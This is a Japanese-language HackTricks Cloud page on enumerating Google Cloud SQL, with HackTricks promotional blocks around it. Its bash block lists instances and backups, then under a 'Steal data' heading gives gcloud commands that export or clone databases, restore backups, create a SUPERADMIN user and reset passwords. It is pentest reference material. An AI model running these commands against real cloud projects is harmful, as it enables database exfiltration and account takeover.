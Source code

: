 # GCP - SQL Enum

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンをダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## [Cloud SQL](https://cloud.google.com/sdk/gcloud/reference/sql/)

Cloud SQLインスタンスは、**完全に管理されたリレーショナルMySQL、PostgreSQL**および**SQL Serverデータベース**です。Googleはレプリケーション、パッチ管理、およびデータベース管理を処理して可用性とパフォーマンスを確保します。[詳細を見る](https://cloud.google.com/sql/docs/)。

これらのインスタンスのいずれかがパブリックIPで使用されている場合、ミス構成されてアクセス可能なため、インターネットから**アクセスを試みる**ことができます。
```bash
# Cloud SQL
gcloud sql instances list
gcloud sql databases list -i <INSTANCE>
gcloud sql databases describe -i <INSTANCE> <DB>
gcloud sql backups list -i <INSTANCE>
gcloud sql backups describe -i <INSTANCE> <DB>

# Steal data
## Export
gcloud sql export sql <DATABASE_INSTANCE> gs://<CLOUD_STORAGE_BUCKET>/cloudsql/export.sql.gz --database <DATABASE_NAME>
## Clone
gcloud instances clone <SOURCE> <DESTINATION>
## Backup
gcloud sql backups restore BACKUP_ID --restore-instance <RESTORE_INSTANCE>
gcloud sql instances clone restore-backup <SOURCE> <DESTINATION>
## Users abuse
gcloud sql users list -i <INSTANCE>
gcloud sql users create SUPERADMIN -i <INSTANCE>
gcloud sql users set-password <USERNAME> -i <INSTANCE> --password <PWD>
```
### DBデータの外部流出

例として、[Googleのドキュメント](https://cloud.google.com/sql/docs/mysql/import-export/exporting)に従ってCloud SQLデータベースを外部に流出させることができます。

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もしもあなたの**会社をHackTricksで宣伝したい**場合や、**PEASSの最新バージョンにアクセスしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して、あなたのハッキングトリックを共有しましょう。

</details>
